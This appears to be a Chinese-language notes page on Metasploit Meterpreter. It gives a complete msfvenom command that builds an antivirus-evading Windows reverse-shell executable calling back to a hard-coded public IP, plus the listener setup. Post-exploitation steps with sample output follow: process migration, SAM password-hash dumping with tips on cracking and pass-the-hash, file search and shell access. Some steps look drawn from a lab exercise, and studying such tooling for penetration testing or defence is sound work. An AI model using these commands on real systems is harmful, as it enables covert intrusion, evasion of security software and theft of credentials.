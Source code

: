 ```yaml
---
icon: pen-to-square
date: 2025-04-03
tags: 
title: "Metasploit: Meterpreter"
category:
  - 项目
---
```

## 简易免杀马生成
生成免杀马，可绕过火绒和腾讯电脑管家
```bash
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=120.46.10.222 LPORT=9831 -b "\x00" -e x86/shikata_ga_nai -i 20 -f raw | msfvenom -a x86 --platform windows -e x86/alpha_upper -i 10 -f exe -o ./shell4.exe
```

msf监听
```bash
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 120.46.10.222
msf6 exploit(multi/handler) > set LPORT 9831
msf6 exploit(multi/handler) > run
```
注意设置正确的payload
## 其他命令
```bash
sessions
```
查看连接的Meerpreter会话

```bash
sessions -i [id]
```
连接sessions

---



```shell-session
msfvenom --list payloads | grep meterpreter
```
该列表将显示适用于以下平台的 Meterpreter 版本;

- Android
- Apple iOS
- Java
- Linux
- OSX
- PHP
- Python
- Windows

您决定使用哪个版本的 Meterpreter 主要基于三个因素;

- 目标作系统（目标作系统是 Linux 还是 Windows？它是 Mac 设备吗？是安卓手机吗？等）
- 目标系统上可用的组件（是否安装了 Python？这是 PHP 网站吗？等）
- 您可以与目标系统建立的网络连接类型（它们是否允许原始 TCP 连接？可以只进行 HTTPS 反向连接吗？IPv6 地址的监控不如 IPv4 地址严密吗？等）


## Meterpreter后渗透
`getuid`显示Meterpreter当前用户
```shell-session
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```
ps会列出正在运行的进程。PID会提供将METERPRETER迁移到另一个进程所需的PID信息

### 进程迁移
meterpreter存在于内存中，依附于其他进程，因此可以将此进程迁移到其他进程
输入迁移命令后接目标进程的PID可以迁移进程
```shell-session
meterpreter > migrate 716
[*] Migrating from 1304 to 716...
[*] Migration completed successfully.
```

**哈希 Dump**

`hashdump`命令将列出SAM数据库的内容。SAM(安全帐户管理器)数据库在Windows系统上存储用户密码。这些密码以 NTLM(新技术 LAN Manager) 格式存储。

```shell-session
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```
虽然在数学上无法“破解”这些哈希,NTLM但您仍然可以使用在线NTLM数据库或彩虹表攻击发现清晰文本密码。这些哈希也可以用于Pass-the-Hash攻击,以验证这些用户可以访问同一网络的其他系统。

**搜索**
search命令用于搜索目标用户中的文件如下
```shell-session
meterpreter > search -f flag2.txt
Found 1 result...
    c:\Windows\System32\config\flag2.txt (34 bytes)
```

**shell**
shell命令可以启动shell，按下 CTRL+Z 将帮助您返回到 Meterpreter shell。
```shell-session
meterpreter > shell
Process 2124 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
```

